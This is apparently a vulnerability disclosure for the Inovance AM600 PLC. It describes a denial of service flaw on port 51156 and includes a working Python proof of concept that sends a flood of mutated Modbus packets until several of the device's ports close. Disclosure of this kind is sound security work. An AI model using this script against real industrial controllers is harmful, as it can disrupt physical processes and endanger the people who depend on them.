 # Summary
There is a denial of service vulnerability in port 51156 of Inovance AM600 PLC.An attacker can send a large number of modbus protocol data packets to cause the PLC to crash.

This "crash" did not cause the device to crash, but closed the originally open port.
# Details
Connectivity test of the device:
![image](https://github.com/user-attachments/assets/ed1c3c11-316d-42c0-b5f5-2c14a7f6375f)

Nmap scans device ports:![image](https://github.com/user-attachments/assets/4076b32b-0c57-4e88-b15e-afe1cba75581)

You can see that port 51156 is open.

Then we run the script:![image](https://github.com/user-attachments/assets/1a9d6314-63ff-4557-af09-5ef130acee8f)



After a while, we scan the port with Nmap and find:![image](https://github.com/user-attachments/assets/4b2955f5-8592-476c-a272-28b05e5e3779)



Of the **7** ports that were originally open, only **3** are left now, and **mbap port 502** has also been closed.

# PoC
My host ip is `192.168.1.149` and the device's ip is `192.168.1.88`.

```py
import socket

def F1(x):
    return x ^ 0xFF
    pass
def F2(x):
    return x ^ 0xFE
    pass
def F3(x):
    return (x-0x10) & 0xFF
    pass
def F4(x):
    return (x*0x17) & 0xFF
    pass

def Change(data: bytes):
    l = len(data)
    import random
    pos = random.randint(0, l - 1)
    Fs = [F1, F2, F3, F4]
    f = random.randint(0, 3)
    func = Fs[f]
    newX = func(data[pos])

    hex_str = format(newX, '02x')
    data = data[:pos] + bytes.fromhex(hex_str) + data[pos + 1:]

    return data

ori = "00 01 00 00 00 06 01 03 00 00 00 0a"
ori = bytes.fromhex(ori.replace(" ", ""))
queue = []

queue.append(ori)

MAX_LEN = 65536
cur = 0
while True:
    if((cur)%100 == 0):
        print(cur,end=' ')
    for i in range(8):
        top = queue[cur]
        now = Change(top)
        queue.append(now)
        try:
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(("192.168.1.88",51156))
            s.send(now)
            s.close()
            import time
            # time.sleep(0.1)
        except:
            print()
            print("\033[91m[+] CRASHED!!!!!!!!!!!!!!!!!!\033[0m")
            
    import time
    cur = (cur + 1) % MAX_LEN
```
# Discoverer
ylqncepu@163.com

https://github.com/N0zoM1z0

Li Chunan(804242129@qq.com)

